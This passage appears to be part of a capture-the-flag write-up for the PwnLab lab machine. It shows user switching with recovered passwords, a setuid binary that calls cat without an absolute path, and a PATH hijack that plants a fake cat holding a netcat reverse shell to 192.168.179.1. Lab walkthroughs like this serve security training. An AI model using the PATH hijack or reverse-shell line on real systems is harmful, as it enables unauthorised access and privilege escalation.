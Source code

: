 We can use the passwords found previously to access as user kent, but I didn't find anything.

```bash
www-data@pwnlab:/$ su - kent
su - kent
Password: JWzXuBJJNy

kent@pwnlab:~$ ls -la
ls -la
total 32
drwxr-x--- 4 kent kent 4096 Dec 25 11:42 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 kent kent  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 kent kent 3515 Mar 17  2016 .bashrc
drwx------ 2 kent kent 4096 Dec 25 10:47 .gnupg
-rw-r--r-- 1 kent kent  675 Mar 17  2016 .profile
drwx------ 2 kent kent 4096 Dec 25 10:39 .ssh
```

Then I switched to the user kent.

```bash
kent@pwnlab:~$ su - kane
su - kane
Password: iSv5Ym2GRo

kane@pwnlab:~$ ls
ls
msgmike
```

In kane's home directory there is an executable file, this executes the cat command without the absolute path.

```bash
kane@pwnlab:~$ file msgmike
file msgmike
msgmike: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d7e0b21f33b2134bd17467c3bb9be37deb88b365, not stripped

kane@pwnlab:~$ ./msgmike
./msgmike
cat: /home/mike/msg.txt: No such file or directory

kane@pwnlab:~$ strings msgmike | grep cat
strings msgmike | grep cat
cat /home/mike/msg.txt
```

We will take advantage of this bad practice to escalate the user mike, we first need to export the PATH variable by adding the directory /tmp that will contain our malicious cat command, then we add a netcat reverse shell with the name cat and grant it execute permissions.

```bash
kane@pwnlab:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
kane@pwnlab:/tmp$ echo 'nc 192.168.179.1 443 -e /bin/bash' > cat
echo 'nc 192.168.179.1 443 -e /bin/bash' > cat
kane@pwnlab:/tmp$ chmod +x cat
chmod +x cat
```
